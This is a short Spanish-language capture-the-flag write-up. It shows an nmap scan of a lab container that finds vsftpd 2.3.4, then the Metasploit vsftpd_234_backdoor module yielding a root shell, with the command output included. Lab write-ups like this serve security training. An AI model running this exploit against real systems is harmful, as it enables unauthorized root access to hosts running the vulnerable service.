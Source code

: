 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# FirstHacking

Con `nmap` vemos que solo está abierto el puerto 21 FTP.

```bash
❯ nmap -sC -sV $IPTARGET
```

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-21 20:12 EDT
Nmap scan report for 172.17.0.2
Host is up (0.0000040s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.52 seconds
```

Como no tiene acceso para `anonymous`, un posible path para resolver la máquina sería buscar la versión del FTP en `metasploit` para ver si es vulnerable.

<figure><img src="../../.gitbook/assets/Pasted image 20250722021637 (2).png" alt=""><figcaption></figcaption></figure>

Probamos este backdoor.

```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
[*] 172.17.0.2:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 172.17.0.2:21 - USER: 331 Please specify the password.
[+] 172.17.0.2:21 - Backdoor service has been spawned, handling...
[+] 172.17.0.2:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
whoami
[*] Command shell session 1 opened (172.17.0.1:39081 -> 172.17.0.2:6200) at 2025-07-21 20:17:57 -0400

root
```
